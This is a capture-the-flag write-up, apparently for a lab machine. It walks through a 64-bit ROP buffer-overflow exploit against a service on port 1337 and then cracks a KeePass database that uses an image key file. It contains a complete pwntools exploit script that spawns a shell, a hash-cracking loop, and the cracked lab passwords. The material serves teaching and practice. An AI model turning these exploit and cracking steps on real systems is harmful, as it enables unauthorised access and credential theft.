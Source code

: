 ![](./logo.png)

# USER

Looking at the page source we can seen the message

```html
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

The binary is a `64-bit` application. Therefore, consideration needs to be made for the exploit.

Instead of passing arguments on the stack like a `32-bit` application, `64-bit` applications use registers in the 
order listed below: 
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
```

### Working exploit

The original call to `system` loads the value of `/usr/bin/uptime` into `rdi`.

In the method `test()` has some interesting gadgets:

```
   0x0000000000401152 <+0>:	push   rbp
   0x0000000000401153 <+1>:	mov    rbp,rsp
   0x0000000000401156 <+4>:	mov    rdi,rsp
   0x0000000000401159 <+7>:	jmp    r13
```

The first two instructions are generic instructions to setup the stack. The one we need is the `mov rdi, rsp`, this can let us load `/bin/sh` into the first instruction register. This will work because `$rsp` will point to the top of the stack. This is where we will place `/bin/sh\x00`.

However, we are followed by a `jmp 13`, this means we need to place the address of `system` into this address to complete the payload. We can achieve this with the gadget `pop r13 ; pop r14 ; pop r15 ; ret`.

Below is our completed exploit:

```python
from pwn import *
import struct
import sys
import re

BINARY = './myapp'
BUFFER_LEN = 120

# io = process(BINARY)
io = remote("10.10.10.147", 1337)
# io = gdb.debug('./myapp', 'b *main+77') # ret of main()

# Gadgets
pop_r13 = p64(0x401206)  # pop r13 ; pop r14 ; pop r15 ; ret
mov_rdi = p64(0x401156)  # mov rdi, rsp

# Addresses
system  = p64(0x40116e)
main    = p64(0x40115f)  # debug

# Data
bin_sh  = b"/bin/sh\x00"

payload =  b""
payload += b"A" * BUFFER_LEN

# pop r13 ; pop r14 ; pop r15 ; ret
payload += pop_r13
payload += system       # r13
payload += b"BBBBBBBB"  # r14
payload += b"BBBBBBBB"  # r15

# mov rdi, rsp
payload += mov_rdi
payload += bin_sh       # /bin/sh\x00

io.sendline(payload)
io.interactive()
```

Note the line:

```python
io = gdb.debug('./myapp', 'b *main+77') # ret of main()
```

Loads the program into `gdb` allows for debugging the `pwn-tools` exploit.

This lets us spawn a shell on the box and grab the `user.txt`!

# ROOT

The root directory contains a Keypass (`kdbx`) and six images.

Using `keypass2john` from the Jumbo version of John The Ripper we can convert the database to a hash that can be cracked.

After trying for a small amount of time with a basic hash (With no key file) I began trying to use the images as key files. Key files work as an extra layer of security and can be any file. In this case the key file is one of the images.

The hash files were generated with the batch file below:

```sh
files=(
	"IMG_0545.JPG"  
	"IMG_0546.JPG"  
	"IMG_0547.JPG"  
	"IMG_0548.JPG"  
	"IMG_0552.JPG"  
	"IMG_0553.JPG"
      )

for i in ${files[@]}; do
	keepass2john -k $i ./MyPasswords.kdbx > ./hash/$i-hash.txt
done
```

With some trial and error it was found that `IMG_0547.JPG` is the key file. This can be used to create a hash with `keypass2john`.

```
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
```

This when cracked gives us the password `bullshit`.

```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

bullshit         (MyPasswords)
1g 0:00:00:02 DONE (2019-12-06 11:27) 0.3448g/s 355.8p/s 355.8c/s 355.8C/s mariel..samson
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

This can be used within `Keypass` to grab the root password:

```
root:u3v2249dl9ptv465cogl3cnpo3fyhk
```